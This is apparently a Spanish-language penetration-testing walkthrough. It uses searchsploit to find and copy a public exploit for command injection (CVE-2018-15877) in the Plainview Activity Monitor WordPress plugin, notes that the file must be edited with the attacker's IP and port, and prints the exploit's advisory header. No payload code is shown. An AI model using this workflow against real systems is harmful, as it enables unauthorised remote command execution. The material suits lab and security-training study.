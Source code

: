 Resultado:
```bash
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Activity Monitor 2002 2.6 - Remote Denial of Service                                                                       | windows/dos/22690.c
RedHat Linux 6.0/6.1/6.2 - 'pam_console' Monitor Activity After Logout                                                     | linux/local/19900.c
WordPress Plugin Plainview Activity Monitor 20161228 - (Authenticated) Command Injection                                   | php/webapps/45274.html
WordPress Plugin Plainview Activity Monitor 20161228 - Remote Code Execution (RCE) (Authenticated) (2)                     | php/webapps/50110.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
El archivo 45274.html explota una vulnerabilidad CSRF en el complemento "WordPress Plugin Plainview Activity Monitor", permitiendo acciones no autorizadas al aprovechar la confianza del sistema en las solicitudes autenticadas del navegador
```bash
searchsploit -m 45274
```
Resultado:
```bash
  Exploit: WordPress Plugin Plainview Activity Monitor 20161228 - (Authenticated) Command Injection
      URL: https://www.exploit-db.com/exploits/45274
     Path: /usr/share/exploitdb/exploits/php/webapps/45274.html
    Codes: CVE-2018-15877
 Verified: True
File Type: ReStructuredText file, ASCII text
Copied to: /home/kali/45274.html
```
Tendremos que modificar el archivo 45274.html con nuestra dirección IP y el puerto deseado
```bash
└─$ cat 45274.html 
<!--
About:
===========
Component: Plainview Activity Monitor (Wordpress plugin)
Vulnerable version: 20161228 and possibly prior
Fixed version: 20180826
CVE-ID: CVE-2018-15877
CWE-ID: CWE-78
Author:
- LydA(c)ric Lefebvre (https://www.linkedin.com/in/lydericlefebvre)

Timeline:
===========
- 2018/08/25: Vulnerability found
- 2018/08/25: CVE-ID request
- 2018/08/26: Reported to developer
- 2018/08/26: Fixed version
- 2018/08/26: Advisory published on GitHub
- 2018/08/26: Advisory sent to bugtraq mailing list

Description:
===========
Plainview Activity Monitor Wordpress plugin is vulnerable to OS
command injection which allows an attacker to remotely execute
commands on underlying system. Application passes unsafe user supplied
data to ip parameter into activities_overview.php.
```